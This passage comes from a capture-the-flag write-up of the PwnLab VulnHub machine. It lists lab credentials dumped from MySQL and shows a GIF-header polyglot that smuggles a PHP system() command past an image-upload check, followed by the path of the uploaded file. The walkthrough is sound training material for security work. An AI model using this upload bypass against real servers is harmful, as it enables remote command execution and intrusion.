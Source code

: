 - **username**: kent; **password**: JWzXuBJJNy
- **username**: mike; **password**: SIfdsTEn6I
- **username**: kane; **password**: iSv5Ym2GRo

## Reverse shell

Using credentials stored in MySQL, we can go back log in and upload some files:

![upload images](/assets/img/vulnhub/linux/pwnlab/upload-logged.png)

Due to `getimagesize` PHP function used in `upload.php`, I remembered [hackers-grimoire - file upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

I wanted t

### GIF89a; magic bytes


If we want to pass the image check, we can add a GIF file header to our malicious file. 

I renamed the file as **ping.gif**:

```
GIF89;  
<?php system("ping -c1 192.168.1.171") ?>
```

By the way, the file is now considerate as a legitimate image:

```bash
$ file ping.gif 
ping.gif: GIF image data 8224 x 15370
```

After uploading the image we can retrieve its location by inspecting the source code:

![ping.gif location](/assets/img/vulnhub/linux/pwnlab//assets/img/vulnhub/linux/pwnlab-src.png)

Now we have the image PATH: `upload/360ae33efb11f1be532d46e9daf60828.gif`.

### `tcpdump` ping test
